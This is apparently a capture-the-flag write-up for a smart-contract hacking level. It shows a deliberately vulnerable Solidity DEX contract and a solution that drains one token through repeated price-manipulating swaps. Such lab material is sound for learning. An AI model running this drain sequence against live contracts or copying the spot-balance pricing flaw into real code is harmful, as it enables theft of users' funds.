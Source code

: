 # Challenge 22

<img src="./images/BigLevel22.svg" alt="22">

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```
Challenge 
---
> The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

> You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

> You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

> Quick note
---
> Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

  Things that might help:

  - How is the price of the token calculated?
  - How does the swap method work?
  - How do you approve a transaction of an ERC20?
  - Theres more than one way to interact with a contract!
  - Remix might help
  - What does "At Address" do?


Solution
---
1. Player Holds the 10 tokens from the `token1` and `token2`. and we will get the price with `getSwapPrice`.there is no fraction types in Solidity. Instead, division rounds towards zero. Open up the terminal 

2. Vulnerability is in the `getSwapPrice` function if you take look at the function there is division operation doesn’t Calculate to the fractional integer and in solidity there is no fractional integer type. 

```
      DEX                                   Player
-------------------------------------------------------------------
token1    token2                      token1    token2
-------------------------------------------------------------------
100         100                         10        10
```
If we make swap see, We wil send 10 token.


```
      DEX                                   Player
-------------------------------------------------------------------
token1    token2                      token1    token2
-------------------------------------------------------------------
100         100                         10        10
110          90                          0        20
```

Now exchanging Token2 will give 24.44.. because our toke1 of dex contract has `110` and token2 `90` then `20 * 110 / 90 = 24.44` keep swap till the one of the token becomes 0.

now get to the point we wil get the enough amount approval 

```shell
await contract.approve(contract.address, 500)
```

set the address so we don't need to write over and over again.
```shell
token1 = await contract.token1()
token2 = await contract.token2()
```

```shell
await contract.swap(token1, token2, 10)
await contract.swap(token2, token1, 20)
await contract.swap(token1, token2, 24)
await contract.swap(token2, token1, 30)
await contract.swap(token1, token2, 41)
await contract.swap(token2, token1, 45)
```
Token 1 is drained 

```shell
await contract.balanceOf(t1, instance).then(v => v.toString())
// 0
```

Submit the instance your level will be cleared 🎉.